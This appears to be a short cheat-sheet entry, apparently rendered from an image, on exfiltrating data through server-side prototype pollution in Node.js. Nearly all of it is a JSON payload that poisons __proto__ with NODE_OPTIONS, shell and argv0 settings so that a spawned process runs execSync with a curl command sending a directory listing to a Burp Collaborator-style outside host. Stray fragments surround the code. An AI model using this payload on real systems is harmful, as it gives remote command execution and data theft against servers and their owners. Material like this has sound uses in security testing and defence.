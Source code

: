 


### Exfiltrating sensitive data via server-side prototype pollution\
Payload
```js
Https
'{
	"__proto__": 
	{
		"NODE_OPTIONS": "--require /proc/self/cmdline", 
		"shell": "node",
		"argv0": "require('child_process').execSync('curl `ls ` burpsuite-collbabrator') //"
	}
}'
```